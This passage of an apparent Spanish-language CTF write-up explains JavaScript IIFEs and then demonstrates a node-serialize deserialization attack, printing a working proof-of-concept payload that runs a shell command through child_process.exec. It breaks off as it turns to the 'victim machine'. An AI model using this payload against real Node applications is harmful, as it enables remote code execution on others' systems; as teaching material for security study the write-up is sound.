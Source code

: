 Antes de explotar, veremos como funciona IIFE, IIFE significa **Immediately Invoked Function Expression**, y son funciones que se ejecutan tan pronto como se definen, ej

Tenemos una funcion como esta:

```js
function hola() {
  console.log("hola");
}
```

Que no se va a ejecutar hasta que nosotros la mandemos llamar de una forma parecida a esta: **hola();**, pero que pasara si ahora nosotros la convertimos en esto:

```js
(function () {
  console.log("hola");
})();
```
Observa como se agregaron parentesis de mas, y al final se le agrego un **();**, eso se hizo para indicarle que la funcion sea llamada, es decir que permita una ejecucion inmediata apenas sea definida la funcion, basicamante el **();** en el que nos permite ejecutar la funcion apenas sea definida, si quieres saber mas haz click [aqui](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)

## Deserializacion Attack (IIFE)

Regresando a la explotacion, primero para probar la vulnerabilidad debemos de generar objeto serializado usando ```node-serialize```, asi que instalaremos ese modulo

```ruby
npm install node-serialize
```

Despues creamos un archivo de js y usaremos este PoC:

```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'whoami \', function(error, stdout, stderr) { console.log(stdout) });}()"}'; 
serialize.unserialize(payload);
```

Observa que la variable payload es la que tiene todo nuestro payload, unico que esta haciendo es definir una funcion que usara **exec** para ejecutar un comando, en este caso es **whoami**, la parte de IIFE entra al final del payload, observa como al final se le agrega un **()**, que como mencione anteriormente, esta permitiendo que la funcion se ejecutara inmediatemente apenas sea definida, el resultado de ejecutar esto, es el resultado de ejecutar el comando **whoami**

![](/assets/img/nodeBlog/10.png)

Asi que ahora debemos de hacer lo mismo pero en la maquina victima, ¿Y como?, usaremos un payload similar a este:
